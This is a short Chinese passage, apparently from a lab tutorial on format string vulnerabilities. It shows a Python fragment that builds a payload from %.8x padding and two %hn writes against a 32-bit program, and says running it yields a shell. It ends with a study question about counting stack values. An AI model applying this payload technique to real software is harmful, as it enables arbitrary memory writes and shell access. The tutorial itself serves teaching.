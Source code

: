 其中，如下行需要根据你自己的机器进行填写：

```python
...
addr1 = 0xffffd13c	# 用于存放较小的0xd1f4的地址
addr2 = 0xffffd13e
...
small = 0xd1f4 - 12 - 19*8	# 小数减去前置 addr1@@@@addr2 所占的12字节，再减去19*8字节
large = 0xffff - 0xd1f4		# 大数减小数
s = "%.8x"*19 + "%." + str(small) + "x%hn%." + str(large) + "x%hn"
...
```

执行上述程序后，生成badfile，再执行fmtvul_32，可获得shell。

**思考：为什么写入small之前要用19个%.8x？应该如何确认有多少个栈上数据？（gdb调试？遍历猜测？And so on）**
